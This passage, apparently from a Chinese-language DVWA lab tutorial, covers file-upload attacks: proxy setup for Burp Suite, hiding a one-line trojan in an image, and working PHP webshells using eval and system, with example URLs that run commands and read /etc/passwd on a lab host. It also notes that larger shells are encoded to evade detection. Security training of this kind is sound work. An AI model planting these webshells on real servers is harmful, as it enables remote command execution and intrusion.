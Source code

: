 > ==给浏览器设置代理模式==

 ![image-20210831164037905](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831164046.png)

> ==注意这里的端口我忘记改了，应该是8080，后来我又改成8080了==

 ![31-1](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831164604.png)

> ==设置完以后，开始设置Brup Suite==

 ![image-20210831201332190](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831201332.png)

 ![image-20210831201548925](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831201549.png)

 ![31-3](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831201615.png)



> ==原理==

 ![00](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210831190606.png)

### 2.3、高级难度

```txt
高安全模式，上传一句话图片木马（文件后缀名限制）

上传一句话木马图片（结合下面的 webshell 进行操作）
用工具 edjpgcom 给图片写入木马，执行图片内容生成木马，用中国菜刀连接进行后台操作
```



### 2.4、WebShell

- 小马：一句话木马也称为小马，即整个shell代码量只有一行，一般为系统执行函数
- 大马：代码量和功能比小马要多，一般会进行二次编码加密，防止被安全防火墙/入侵系统检测到

> ==展示代码==

```php
shell2.php # eval 使用php函数，例如phpinfo();  打印信息  注意eval只能运行php程序
<?php eval($_REQUEST['cmd']);?>
#http://10.3.139.173/dvwa/hackable/uploads/shell2.php?cmd=phpinfo();
#10.3.139.173改为靶机的ip地址
```

```php
shell3.php #system 使用linux系统命令，例如ls，cp，rm
<?php system($_REQUEST['fafa']);?>
#http://10.3.139.173/dvwa/hackable/uploads/shell3.php?fafa=cat /etc.passwd
#10.3.139.173改为靶机的ip地址
```

> ==$ _REQUEST和$​ _POST的区别==

- < ?php eval($_REQUEST[‘hello’]);? >（hello可以改）
  在地址栏用参数一条一条地操作
  http://10.3.139.173/dvwa/hackable/uploads/shell2.php?hello=phpinfo();
